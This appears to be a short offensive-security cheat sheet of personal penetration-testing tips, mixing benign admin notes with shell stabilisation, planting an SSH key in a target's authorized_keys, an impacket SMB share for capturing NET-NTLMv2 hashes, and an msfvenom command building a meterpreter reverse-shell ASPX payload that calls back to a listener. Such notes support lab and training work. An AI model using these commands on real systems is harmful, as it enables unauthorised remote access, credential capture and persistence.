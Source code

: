```yaml
---
title: Random Tips and Tricks
published: true
---
```


<h1>To stabilize a bash shell:</h1>
```shell
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press enter twice
export TERM=xterm
```

<h1>Adding an SSH key to a box:</h1>
```shell
On Kali, generate a key:
    ssh-keygen -t rsa
Next, copy the public key over to the users /home/.ssh/authorized_keys file
Then, simply ssh in using the private key:
    ssh -i <key name> username@host
```

<h1>Cleaning an SSH key:</h1>
```shell
Sometimes you may need to copy and paste an SSH key, and it's supposed to work... but it's not. You may need to remove bad chars and clean it up:

chmod 600 id_rsa
dos2unix id_rsa
vi --clean id_rsa
inside vi: (esc) + wq
ssh -i id_rsa username@host
```

<h1>Serving an SMB server with impacket:</h1>
```shell
impacket-smbserver evil ./ -smb2support
```
It's good practice to use the smb2support flag. If you see a connection come through that doesn't provide a NET-NTLMv2 it could be because you set up
the smb server without smb2 support.

<h1>Setting up python virtual environments:</h1>
```shell
python3 -m venv myenv

source myenv/bin/activate

pip install -r requirements.txt (replace with whatever command is needed to install whatever it is your doing)
```

<h1>Call tools globally on linux regardless of user:</h1>
```shell
Move the tools to:
/usr/local/bin
```

<h1>Generic usage of msfvenom:</h1>
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.245 LPORT=4444 -f aspx -o shell.aspx
```



